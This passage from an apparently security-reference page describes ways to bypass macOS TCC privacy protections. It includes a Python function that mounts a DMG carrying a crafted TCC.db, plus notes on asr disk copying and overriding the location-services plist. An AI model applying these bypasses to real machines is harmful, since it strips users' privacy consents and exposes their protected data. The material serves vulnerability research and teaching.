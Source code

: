 ```python
# This was the python function to create the dmg
def create_dmg():
	os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
	os.system("mkdir /tmp/mnt")
	os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
	os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
	os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
	os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```

Check the **full exploit** in the [**original writeup**](https://theevilbit.github.io/posts/cve-2021-30808/).

### asr

The tool **`/usr/sbin/asr`** allowed to copy the whole disk and mount it in another place bypassing TCC protections.

### Location Services

There is a third TCC database in **`/var/db/locationd/clients.plist`** to indicate clients allowed to **access location services**.\
The folder **`/var/db/locationd/` wasn't protected from DMG mounting** so it was possible to mount our own plist.

## By startup apps

{% content-ref url="../../../macos-auto-start-locations.md" %}
[macos-auto-start-locations.md](../../../macos-auto-start-locations.md)
{% endcontent-ref %}

## By grep

In several occasions files will store sensitive information like emails, phone numbers, messages... in non protected locations (which count as a vulnerability in Apple).

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

## Reference

* [**https://medium.com/@mattshockl/cve-2020-9934-bypassing-the-os-x-transparency-consent-and-control-tcc-framework-for-4e14806f1de8**](https://medium.com/@mattshockl/cve-2020-9934-bypassing-the-os-x-transparency-consent-and-control-tcc-framework-for-4e14806f1de8)
* [**https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/**](https://www.sentinelone.com/labs/bypassing-macos-tcc-user-privacy-protections-by-accident-and-design/)
* [**20+ Ways to Bypass Your macOS Privacy Mechanisms**](https://www.youtube.com/watch?v=W9GxnP8c8FU)
* [**Knockout Win Against TCC - 20+ NEW Ways to Bypass Your MacOS Privacy Mechanisms**](https://www.youtube.com/watch?v=a9hsxPdRxsY)
